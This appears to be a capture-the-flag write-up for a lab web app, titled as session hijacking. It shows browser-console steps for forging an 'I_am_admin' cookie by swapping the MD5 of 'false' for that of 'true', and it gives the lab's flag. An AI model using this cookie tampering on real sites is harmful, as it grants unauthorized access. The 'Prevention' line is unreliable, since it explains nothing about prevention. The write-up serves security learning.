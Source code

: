 # SESSION HIJACKING ATTACK

## Flag
```
df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3
```

## Discovery
On the page http://{IP_ADDRESS}/

```
# inspector console
document.cookie
> 68934a3e9455fa72420237eb05902327
```

```
md5_decrypt('68934a3e9455fa72420237eb05902327')
> false
md5_encrypt('true')
> b326b5062b2f0e69046810717534cb09
```

```
# inspector console
document.cookie = "I_am_admin=b326b5062b2f0e69046810717534cb09"
```
Refresh page

## Use
> perform any actions that the original user is authorized to do during the active session

## Prevention
> Session cookies are a way of overcoming these constraints and allowing web applications to identify individual computer systems and store the current session state

## Documentation
[owasp - Session hijacking attack](https://www.owasp.org/index.php/Session_hijacking_attack)
[netsparker - Session hijacking](https://www.netsparker.com/blog/web-security/session-hijacking/)

---

[RETURN](https://github.com/tillderoquefeuil/darkly)